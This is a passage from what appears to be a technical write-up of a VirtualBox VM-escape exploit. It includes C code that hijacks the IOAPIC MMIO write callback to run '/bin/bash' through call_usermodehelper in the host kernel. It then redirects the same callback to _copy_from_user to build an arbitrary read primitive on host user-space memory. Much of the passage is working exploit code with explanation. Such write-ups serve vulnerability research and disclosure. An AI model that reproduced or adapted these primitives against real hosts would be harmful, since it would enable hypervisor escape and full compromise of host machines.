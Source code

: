 ```c

// trigger ioapicMmioWrite
// this will call DeviceIOAPIC->pfnWriteCallback(DeviceIOAPIC->pDevIns, DeviceIOAPIC->pvUser, 0, <some pointer>, .....);
// which will now be call_usermodehelper("/bin/bash", argv, 0, <some pointer>). <some pointer> will not affect call_usermodehelper
uint8_t* inst2 = ioremap(IOAPIC_BASE, 0x1000);
inst2[0] = 0;
```

### Getting code execution in host's user space

So far our exploit can escape VirtualBox and get code execution in host's kernel space, which is pretty powerful. However this kind of exploit is "kernel dependent", meaning if the kernel has changed, our exploit won't work anymore. Is it possible to create an exploit that only relies on files in VirtualBox ? The answer is : yes, it is possible.

We already know the address of `vboxdrv.ko`. Inside `vboxdrv.ko`, it uses lots of kernel functions such as `kfree`, `__kmalloc`...etc. These functions are called with near call, meaning that we can read the offset in the `call` instruction and calculate the memory address of those functions. One of the function is `_copy_from_user`, which is a function that will copy the content from user space into kernel space.

Since we can control kernel's RIP by overwriting the `pfnWriteCallback` of a device's MMIO entry, we can overwrite the callback into `_copy_from_user`, and trigger `_copy_from_user` by doing an MMIO write. But what about the arguments ? Let's take a look at the arguments of a `_copy_from_user` call:

```c
_copy_from_user(/*<kernel address for dst>*/, /*<user address for src>*/, size);
```

We already know that during a `pfnWriteCallback` callback, we can control the first three of the arguments. The 2nd argument is totally controllable, so we can set it to our target user space address. The 3rd argument can be set to `8` by doing something like `inst[8] = 0;` ( just make `offRegion` into `8` ). As for the 1st one, although it has to be a valid `pDevIns`, however since the first couple of bytes doesn't matter, so it's OK to just set it to a valid `pDevIns`. After the first couple of bytes got overwritten, we can just read it from kernel space with our `arb_read` primitive.

Here I'm using the MMIO entry of IO APIC again: I overwrite the `pfnWriteCallback` into `_copy_from_user`, then control the arguments so I can do arbitrary read in user space:

```c
// Get the address of IO APIC's pDevIns
size_t r0pDevIns = arb_read(inst, code, (sll)(paRing0 + 0x38 + 0x10)); // DeviceIOAPIC->pDevIns
// Overwrite DeviceIOAPIC->pfnWriteCallback into copy_from_user
arb_write(inst, code, (sll)(paRing0 + 0x38 + 0x18), copy_from_user); // DeviceIOAPIC->pfnWriteCallback = copy_from_user
// Prepare the MMIO of IO APIC
uint8_t* inst2 = ioremap(IOAPIC_BASE, 0x1000);

// 64 bit arbitrary read in user space
static size_t __attribute__((optimize("O0"))) arb_read64_user(int *inst, char *code, size_t paRing0, uint8_t *inst2, size_t r0pDevIns, size_t addr) {
    // DeviceIOAPIC->pvUser ( 2nd arg ) = user space addr
    arb_write(inst, code, (sll)(paRing0 + 0x38 + 0x8), addr);
    // trigger DeviceIOAPIC->pfnWriteCallback, which is now copy_from_user
    // it will execute copy_from_user(r0pDevIns, pvUser, offRegion)
    // which is now copy_from_user(r0pDevIns, addr, 8)
    // The content of addr (userspace address) will be copied into r0pDevIns
    // So we just read the content from r0pDevIns and return the value
    inst2[8] = 0; // offRegion ( 3rd arg ) = 8
    // Content will be copied into r0pDevIns, read it
    return arb_read(inst, code, (sll)(r0pDevIns));
}
```
